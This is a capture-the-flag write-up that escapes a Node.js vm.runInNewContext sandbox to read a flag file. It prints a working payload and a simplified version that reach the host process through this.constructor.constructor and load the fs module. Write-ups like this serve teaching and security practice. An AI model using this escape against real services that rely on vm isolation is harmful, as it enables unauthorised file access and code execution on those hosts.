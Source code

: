 # CaaSiNO

> Who needs regex for sanitization when we have VMs?!?!
>
> The flag is at /ctf/flag.txt
>
> `nc 2020.redpwnc.tf 31273`

Provided file: `calculator.js`

Prerequisite topics: Not much. I guess knowing Node.js before could help but this is just a Google+copy+paste challenge.

## Reading the code

The code doesn't do much, except print out the result of:

```js
// line 19
const result = vm.runInNewContext(input)
```

## Investigating

Since the program hides all the errors away behind a generic error message, we can try running this function locally with the `node` REPL<sup id="a1">[1](#f1)</sup>.

```js
Welcome to Node.js v14.3.0.
Type ".help" for more information.
> const vm = require('vm')
undefined
> vm.runInNewContext("require('fs')")
evalmachine.<anonymous>:1
require('fs')
^

Uncaught ReferenceError: require is not defined
// (omitted error stack because unnecessary)
> vm.runInNewContext("process.version")
evalmachine.<anonymous>:1
process.version
^

Uncaught ReferenceError: process is not defined
// (omitted error stack because unnecessary)
```

It seems a lot of the usual node globals are not present in this new vm context. All I did next is Google "nodejs vm exploit" and follow the first link to [this site](https://codebottle.io/s/55c2243a21).

## Solution

After removing the newlines, and changing the ending to be `("util").format("%d", 5)`, the program prints out `5` as it should (`util.format` is just a format string function). We can then change the module from `"util"` to `"fs"` ([Node.js' file system module](https://nodejs.org/api/fs.html)), then use `readFileSync` to open a file synchronously (no callbacks or promises).

### Payload

`new Function("return (this.constructor.constructor('return (this.process.mainModule.constructor._load)')())")()("fs").readFileSync("ctf/flag.txt")`

### What exactly did we just copy paste??

While copy-pasting from Google can be a fast and effective method to solve problems like these, it might be a good idea to investigate this payload.

An explanation can be found [here](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html).

Essentially, the payload uses the fact that `this` is still defined and is actually part of the original program scope (the one that called `vm.runInNewContext`). Then, we can use `this` by calling `.constructor` to reach the Object constructor, then `.constructor` again to reach the Function constructor. The function constructor can then be given a string to create a function in the global scope. I'm not actually sure why the original payload is so long, because I was able to simplify it quite a bit into the following:

```js
this.constructor.constructor(
  'return this.process.mainModule.constructor._load("fs").readFileSync("ctf/flag.txt")'
)()
```

---

<b id="f1">1</b> [REPL stands for Read, Evaluate, Print, Loop](https://en.wikipedia.org/wiki/Read%E2%80%93eval%E2%80%93print_loop). Basically just runs input that we give it live instead of writing a script and running it all at once. Good for testing random stuff. [↩](#a1)
